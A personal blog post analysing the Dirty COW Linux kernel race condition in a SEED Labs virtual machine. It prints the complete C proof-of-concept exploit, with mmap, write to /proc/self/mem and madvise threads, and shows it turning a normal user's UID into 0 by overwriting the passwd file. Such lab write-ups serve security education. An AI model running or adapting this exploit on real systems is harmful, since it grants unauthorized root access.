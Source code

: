 ```yaml
---
layout: post
title:  "Dirty Cow Vulnerability: An analysis"
date:   2023-01-10 15:49:04 +0200
categories: security
---
```


## This is an analysis of the [Dirty Cow Vulnerability](https://en.wikipedia.org/wiki/Dirty_COW) using a VM provided by [SEED Labs](https://seedsecuritylabs.org/Labs_20.04/Software/Dirty_COW/).

Dirty COW stands for Dirty copy-on-write. I actually found this out while doing my research for this exercise. I've read about the vulnerability previously, but I didn't have hands on experience with it, or understand it in depth. So, I will be trying to do that in this blog post, and hopefully it's simple enough that you understand it too.

The Dirty COW vulnerability is a very interesting case of a race condition vulnerability. It existed in the Linux kernel since 2007 and was discovered in 2016, and because the kernel runs as root, it can be exploited as a privile       ge escalation vulnerability. This means attackers can gain root privileges by exploiting it, from a low-level user.

### What is a race condition? 

A `race condition` can arise in software when a computer program has multiple code paths that are executing concurrently. If the multiple code paths take a different amount of time than expected, they can finish in a different order than expected, which can cause software bugs due to unanticipated behavior.

### Here's how I understood it:

Let's say you have a variable/object/resource `a`:

    a = "DIRTY"

but you also have another variable `b`:

    b = a

Even though these  are two variables here, they both point to the same memory object, since there is no need to take up twice the amount of memory for identical values. The OS will wait until the duplicate is modified, that is when it will allocate separate memory for the other variable. 

You modify b:

    b += "COW"

At this point, here is what the kernel will do:

1. allocate memory for the new modified variable
2. read the original contents of the object being duplicated
3. perform any required changes to it i.e., append "COW"
4. write modified contents into the newly allocated memory space

The race condition exists between steps 2 and 4, which tricks the memory mapper into writing the modified contents into the original memory space instead of the newly allocated space. This is such that we end up modifying memory belonging to `a` i.e., the original object instead of `b`, even if we only had read-only privileges on `a`. The race condition allows the attacker to bypass these permissions. 

It is obviously more complicated, I'd like to think, but here is a [video](https://www.youtube.com/watch?v=CQcgz43MEZg) that might help you understand.

### Let's get into the lab

I fired up the VM,and of course I was bombarded with alerts to upgrade to a later version. We won't be doing that for now. 

The objective in this lab is to write to a read-only file using the Dirty Cow vulnerability.

I'll start by creating a file as sudo, adding some text to it and modifying the privileges so that I only have read privileges to read the file. 

![dirtycow0](../images/dirtycow/dirtycow0.png)

With a readable file ready, the next step is to edit the exploit. This exploit is made up of three threads: the main thread, the write thread and the madvise thread. The main thread maps our file to memory, finds where the pattern we want to replace is, and then creates two threads to exploit the Dirty COW race condition vulnerability in the OS kernel.

    #include <sys/mman.h>
    #include <fcntl.h>
    #include <pthread.h>
    #include <sys/stat.h>
    #include <string.h>

    void *map;
    void *writeThread(void *arg);
    void *madviseThread(void *arg);

    int main(int argc, char *argv[])
    {
        pthread_t pth1,pth2;
        struct stat st;
        int file_size;

        // Open the target file in the read-only mode.
        int f=open("dirtycow", O_RDONLY);

        // Map the file to COW memory using MAP_PRIVATE.
        fstat(f, &st);
        file_size = st.st_size;
        map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

        // Find the position of the target area
        char *position = strstr(map,"cow");                        

        // We have to do the attack using two threads.
        pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
        pthread_create(&pth2, NULL, writeThread, position);             

        // Wait for the threads to finish.
        pthread_join(pth1, NULL);
        pthread_join(pth2, NULL);
        return 0;
    }


![dirtycow1](../images/dirtycow/dirtycow1.png)

![dirtycow2](../images/dirtycow/dirtycow2.png)

So first we are opening our file(note that is is being opened in read-only mode) and using the string function called `strstr` we are searching where `cow` is in the mapped memory, then we start two threads, writeThread and madviseThread.

The job of the writeThread is to replace the `cow` string with `wow`(or whatever we want to write). Since the mapped memory is of copy-on-write type, this thread alone will only be able to modify the contents in a copy of the mapped memory, which will not cause any change to the underlying `dirtycow` file.

    void *writeThread(void *arg)
    {
        char *content= "wow";
        off_t offset = (off_t) arg;

        int f=open("/proc/self/mem", O_RDWR);
        while(1) {
            // Move the file pointer to the corresponding position.
            lseek(f, offset, SEEK_SET);
            // Write to the memory.
            write(f, content, strlen(content));
        }
    }   


![dirtycow3](../images/dirtycow/dirtycow3.png)


The madvise thread does only one thing: discarding the private copy of the mapped memory, so the page table can point back to the original mapped memory.

If the write() and the madvise() system calls are invoked alternatively, i.e., one is invoked only after the other is finished, the write operation will always be performed on the private copy, and we will never be able to modify the target file. The only way for the attack to succeed is to perform the madvise() system call while the write() system call is still running. We cannot always achieve that, so we need to try many times. As long as the probability is not extremely low, we have a chance. That is why in the threads we run the two system calls in an infinite loop.

    void *madviseThread(void *arg)
    {
        int file_size = (int) arg;
        while(1){
            madvise(map, file_size, MADV_DONTNEED);
        }
    }

Okay. Exploit is ready. Let's compile and execute. 

![dirtycow4](../images/dirtycow/dirtycow4.png)

And we managed to write to the file. Now this is a very simple example to prove the concept. We can apply this to write to important files in the Unix OS such as the `passwd` file. This allows us to change the privileges that a normal user has, and upgrading them to a root user. See below.

We use sudo to create a user.

![dirtycow5](../images/dirtycow/dirtycow5.png)

See the UID is 1001, meaning `elliot` is just a normal user.

![dirtycow6](../images/dirtycow/dirtycow6.png)

We modify our exploit and run.

![dirtycow7](../images/dirtycow/dirtycow7.png)

We managed to replace the `elliot:x:1001` with `elliot:x:0000`, moving elliot into the root group, hence giving him root privileges.

![dirtycow9](../images/dirtycow/dirtycow9.png)

There are a lot of use cases for this. Imagine an attacker modifies only the `1001` UID section to `0000`, making all users root users. Overall, a super simple and easy to understand exploit.

I really enjoyed going in-depth to try and understand this vulnerability. Again, I oversimplified so I can understand it, (and you too)but the kernel has a lot of layers to it. I am however trying to put out more in-depth long form type of posts instead of short writeups. And this was a great starter to that.

Cheers!


